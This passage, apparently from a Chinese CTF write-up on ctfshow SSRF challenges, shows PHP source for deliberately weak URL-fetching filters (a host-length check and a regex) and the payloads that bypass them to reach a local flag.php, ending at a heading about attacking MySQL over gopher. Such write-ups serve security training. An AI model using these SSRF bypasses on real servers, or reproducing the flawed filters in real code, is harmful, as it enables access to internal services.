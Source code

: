 ```php
<?php
error_reporting(0);
highlight_file(__FILE__);
$url = $_POST['url'];
$x = parse_url($url);
if ($x['scheme'] === 'http' || $x['scheme'] === 'https') {
    $host = $x['host'];
    if ((strlen($host) <= 3)) {
        $ch = curl_init($url);
        curl_setopt($ch, CURLOPT_HEADER, 0);
        curl_setopt($ch, CURLOPT_RETURNTRANSFER, 1);
        $result = curl_exec($ch);
        curl_close($ch);
        echo($result);
    } else {
        die('hacker');
    }
} else {
    die('hacker');
}
?> hacker
```

payload

```
url=http://0/flag.php
# 0在linux系统中会解析成127.0.0.1在windows中解析成0.0.0.0
```

# 358 正则匹配

源代码

```php
<?php
error_reporting(0);
highlight_file(__FILE__);
$url = $_POST['url'];
$x = parse_url($url);
if (preg_match('/^http:\/\/ctf\..*show$/i', $url)) {
    echo file_get_contents($url);
}
```

payload

```
payload:
url=http://ctf.@127.0.0.1/flag.php#show
```

# 359 SSRF工具gopherus gopher 协议去打 mysql 
